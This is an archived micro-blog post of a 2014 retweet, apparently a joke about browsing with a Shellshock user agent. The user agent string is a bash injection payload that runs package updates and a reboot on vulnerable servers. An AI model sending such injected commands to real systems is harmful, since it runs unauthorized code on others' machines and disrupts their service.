 Title: 
Category: micro
Date: 2014-09-26T17:38:32
Slug: 2014-09-26T17:38:32
TwitterId: 515556038792081409
TweetUrl: https://twitter.com/mark_philpot/status/515556038792081409
ReTweetUser: pixnbits

<i class="fa fa-retweet" aria-hidden="true"></i> browsing the web with user agent
`() {.:;.}; yum -y update bash; apt-get -y update bash; reboot`
#shellshock